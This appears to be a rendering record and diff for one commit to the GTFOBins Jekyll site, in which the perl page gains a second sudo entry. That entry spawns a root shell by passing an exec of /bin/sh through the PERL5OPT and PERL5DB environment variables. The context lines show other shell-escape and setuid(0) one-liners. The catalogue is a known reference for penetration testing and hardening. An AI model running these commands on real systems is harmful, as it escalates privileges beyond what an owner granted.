

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/perl.md, in a window 1280 px wide and 900 px high, scrolled down 754 px. Shown: the top 872 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1546 px from its top, so only the background shows below that.

Commit message:
Add perl sudo

```diff
--- a/_gtfobins/perl.md
+++ b/_gtfobins/perl.md
@@ -16,6 +16,8 @@ functions:
     - code: ./perl -e 'exec "/bin/sh";'
   sudo:
     - code: sudo perl -e 'exec "/bin/sh";'
+    - description: Don't forget to `CTRL+D` to exit the perl shell and get the shell.
+      code: sudo PERL5OPT=-d PERL5DB='exec "/bin/sh"' perl
   capabilities:
     - code: ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
 ---
```
